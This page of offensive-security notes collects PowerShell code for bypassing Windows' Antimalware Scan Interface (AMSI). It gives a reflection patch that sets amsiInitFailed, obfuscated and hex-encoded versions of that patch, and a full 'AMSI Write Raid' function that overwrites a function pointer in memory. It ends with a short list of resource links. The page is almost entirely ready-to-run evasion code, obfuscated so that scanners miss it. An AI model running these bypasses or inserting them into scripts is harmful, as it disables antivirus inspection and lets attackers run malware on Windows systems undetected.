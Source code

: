 ```yaml
---
description: Antimalware Scan Interface (AMSI) Bypass
---
```


# AMSI Bypass

### AMSI Patch

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhn9RdQYNznIixLFSfvlM5q4CmArqalAyo3jKwha5p8CE_0BS791sHB4FMjOe7PUsFfcWYFdgd4084wzlHj5qi7ouMYhOkpa13aoo0ZJNAsSPMnVMUOJTeaBdAX6_j-YhKLfTj39zdJAyDzUovLrSLBko2cuuQiHesdVp-PWBacPIIQVB9MN0P-vJ_ocKY/s1000" alt=""><figcaption><p>AMSI Patch</p></figcaption></figure>

{% code overflow="wrap" %}
```csharp
[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f 'Am', 'si')).GetField(('am{0}InitFailed' -f 'si'),'NonPublic,Static').("Set" + "Value")($null,$true)
```
{% endcode %}

### From CRTP Module

{% code overflow="wrap" %}
```csharp
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}

### Manual Modification

{% code overflow="wrap" %}
```csharp
[Ref].Assembly.GetType('Syst'+'em.Manag'+'ement.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

### AMSI Write Raid Bypass

```csharp
function MagicBypass {

# Define named parameters
param(
    $InitialStart = 0x50000,
    $NegativeOffset= 0x50000,
    $MaxOffset = 0x1000000,
    $ReadBytes = 0x50000
)

$APIs = @"
using System;
using System.ComponentModel;
using System.Management.Automation;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Text;

public class APIs {
    [DllImport("kernel32.dll")]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, UInt32 nSize, ref UInt32 lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();

    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
   
    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

    [MethodImpl(MethodImplOptions.NoOptimization | MethodImplOptions.NoInlining)]
    public static int Dummy() {
     return 1;
    }
}
"@

Add-Type $APIs

$InitialDate=Get-Date;

$string = 'hello, world'
$string = $string.replace('he','a')
$string = $string.replace('ll','m')
$string = $string.replace('o,','s')
$string = $string.replace(' ','i')
$string = $string.replace('wo','.d')
$string = $string.replace('rld','ll')

$string2 = 'hello, world'
$string2 = $string2.replace('he','A')
$string2 = $string2.replace('ll','m')
$string2 = $string2.replace('o,','s')
$string2 = $string2.replace(' ','i')
$string2 = $string2.replace('wo','Sc')
$string2 = $string2.replace('rld','an')

$string3 = 'hello, world'
$string3 = $string3.replace('hello','Bu')
$string3 = $string3.replace(', ','ff')
$string3 = $string3.replace('world','er')

$Address = [APIS]::GetModuleHandle($string)
[IntPtr] $funcAddr = [APIS]::GetProcAddress($Address, $string2 + $string3)

$Assemblies = [appdomain]::currentdomain.getassemblies()
$Assemblies |
  ForEach-Object {
    if($_.Location -ne $null){
     $split1 = $_.FullName.Split(",")[0]
     If($split1.StartsWith('S') -And $split1.EndsWith('n') -And $split1.Length -eq 28) {
       $Types = $_.GetTypes()
     }
    }
}

$Types |
  ForEach-Object {
    if($_.Name -ne $null){
     If($_.Name.StartsWith('A') -And $_.Name.EndsWith('s') -And $_.Name.Length -eq 9) {
       $Methods = $_.GetMethods([System.Reflection.BindingFlags]'Static,NonPublic')
     }
    }
}

$Methods |
  ForEach-Object {
    if($_.Name -ne $null){
     If($_.Name.StartsWith('S') -And $_.Name.EndsWith('t') -And $_.Name.Length -eq 11) {
       $MethodFound = $_
     }
    }
}

[IntPtr] $MethodPointer = $MethodFound.MethodHandle.GetFunctionPointer()
[IntPtr] $Handle = [APIs]::GetCurrentProcess()
$dummy = 0
$ApiReturn = $false
   
:initialloop for($j = $InitialStart; $j -lt $MaxOffset; $j += $NegativeOffset){
    [IntPtr] $MethodPointerToSearch = [Int64] $MethodPointer - $j
    $ReadedMemoryArray = [byte[]]::new($ReadBytes)
    $ApiReturn = [APIs]::ReadProcessMemory($Handle, $MethodPointerToSearch, $ReadedMemoryArray, $ReadBytes,[ref]$dummy)
    for ($i = 0; $i -lt $ReadedMemoryArray.Length; $i += 1) {
     $bytes = [byte[]]($ReadedMemoryArray[$i], $ReadedMemoryArray[$i + 1], $ReadedMemoryArray[$i + 2], $ReadedMemoryArray[$i + 3], $ReadedMemoryArray[$i + 4], $ReadedMemoryArray[$i + 5], $ReadedMemoryArray[$i + 6], $ReadedMemoryArray[$i + 7])
     [IntPtr] $PointerToCompare = [bitconverter]::ToInt64($bytes,0)
     if ($PointerToCompare -eq $funcAddr) {
       Write-Host "Found @ $($i)!"
       [IntPtr] $MemoryToPatch = [Int64] $MethodPointerToSearch + $i
       break initialloop
     }
    }
}
[IntPtr] $DummyPointer = [APIs].GetMethod('Dummy').MethodHandle.GetFunctionPointer()
$buf = [IntPtr[]] ($DummyPointer)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $MemoryToPatch, 1)

$FinishDate=Get-Date;
$TimeElapsed = ($FinishDate - $InitialDate).TotalSeconds;
Write-Host "$TimeElapsed seconds"
}
MagicBypass

```

### Resource

* https://github.com/sinfulz/JustEvadeBro
* https://s3cur3th1ssh1t.github.io/Bypass\_AMSI\_by\_manual\_modification/
* https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
* https://www.offsec.com/blog/amsi-write-raid-0day-vulnerability/
* https://github.com/anonymous300502/Nuke-AMSI

